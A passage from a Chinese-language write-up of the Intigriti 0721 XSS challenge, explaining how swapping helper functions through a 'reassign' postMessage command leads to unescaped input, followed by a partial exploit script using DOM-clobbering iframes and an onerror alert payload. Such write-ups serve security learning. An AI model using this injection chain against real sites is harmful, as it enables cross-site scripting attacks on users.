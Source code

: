 這又要怎麼辦呢？

在 `log` 裡面有一行是 `data = parse(data)`，而 parse 的程式碼是這樣的：

``` js
let parse = (e) => (typeof e === 'string') ? s(e) : JSON.stringify(e, null, 4); // make object look like string
```

如果 e 是字串，那就回傳 `s(e)`，而這個 s 是另外一個函式。

當初在看程式碼的時候，我看到 reassign 那邊對於 eval 的檢查時，就注意到了它的規則：`RegExp = /^[s-zA-Z-+0-9]+$/;`，還有底下這四個函式：

``` js
let a = (s) => s.anchor(s);
let s = (s) => s.normalize('NFC');
let u = (s) => unescape(s);
let t = (s) => s.toString(0x16);
```

其中 s, u 跟 t 這三個字元都是允許的，也就是說，可以透過 reassign 這個指令把他們互換！我們可以把 `s` 換成 `u`，這樣 data 就會被 unescape 了！

所以最後的程式碼會長這樣：

``` js
const htmlUrl = 'https://challenge-0721.intigriti.io/htmledit.php?code='
const insertPayload=`<img src=x onerror=alert(1)>`
const payload = `
  <a id="DEV"></a>
  <iframe name="store" srcdoc='
    <a id="users"></a>
    <a id="users" name="admin" href="ftp://a:a@a#${escape(insertPayload)}"></a>
  '></iframe>
  <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
`

var win = window.open(htmlUrl + encodeURIComponent(payload))

// 等待 window 載入完成
setTimeout(() => {
  console.log('go')
  const credentials = {
    username: 'a',
    password: 'a'
  }
  // s=u
  win.frames[1].postMessage({
    cmd: 'reassign',
    message:{
      a: 's',
      b: 'u'
    },
    credentials
  }, '*')

  // Z=x+1 so Z = x.href + 1
  win.frames[1].postMessage({
    cmd: 'reassign',
    message:{
      a: 'Z',
      b: 'x+1'
    },
    credentials
  }, '*')

  // log window[Z]
  win.frames[1].postMessage({
    cmd: 'logv',
```